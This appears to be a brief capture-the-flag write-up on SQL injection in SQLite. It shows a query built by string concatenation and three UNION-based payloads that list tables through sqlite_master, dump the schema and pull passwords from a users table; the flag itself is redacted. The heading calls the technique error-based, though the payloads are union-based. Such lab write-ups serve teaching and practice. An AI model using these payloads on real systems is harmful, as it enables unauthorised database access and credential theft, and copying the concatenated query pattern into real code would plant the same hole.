 ### Error based sql injection in sqlite3

first thing i learn is always u don't need to give ' or 1=1  u have to close it only if it is query is  like

``` sql = 'SELECT * FROM Users WHERE Name ="' + uName + '" AND Pass ="' + uPass + '"' ```

our quey looks like this   ``` $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1'; ```


* Finding database tables: ( database() )

      1 AND 1=0 UNION ALL select 1,name from sqlite_master -- '
 
* Finding   tables and columns names (table_name and col.. from information schema )

      1 AND 1=0 UNION ALLselect 1,sql from sqlite_master -- '
 
 and i found a column called password , let's find if any intresting there 
 
      1 AND 1=0 UNION ALL SELECT  1, password from users where id=1  -- '
 
 and we get the flag 
 
[Redacted]
